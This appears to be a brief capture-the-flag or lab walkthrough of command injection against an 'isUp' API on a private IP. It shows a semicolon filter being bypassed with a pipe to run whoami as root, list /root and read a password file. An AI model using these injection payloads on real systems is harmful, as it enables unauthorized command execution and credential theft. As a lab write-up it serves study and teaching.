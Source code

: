 
### Let's try some command injection
	
Request:
	
	curl --data "ip=localhost;whoami" \
	http://10.13.37.3/api/isUp

Response:

	{
		"error" : "You cannot use ';', '&&' or '||' here."
	}


### Well what if we just pipe it?

Request:

	curl --data "ip=localhost | whoami" \
	http://10.13.37.3/api/isUp

Response:

	{
		"message" : "root"
	}


### Let's check out our user dir.

Request:

	curl --data "ip=localhost | ls /root" \
	http://10.13.37.3/api/isUp

Response:

	{
		"message" : "pwd.txt"
	}


### That looks like a fun file!

Request:

	curl --data "ip=localhost | cat /root/pwd.txt" \
	http://10.13.37.3/api/isUp

Response:

	{
		"message" :
			"I just keep forgetting my passwords.
			Here is another: 'W2zNJBGpT5FSvZGF'"
	}


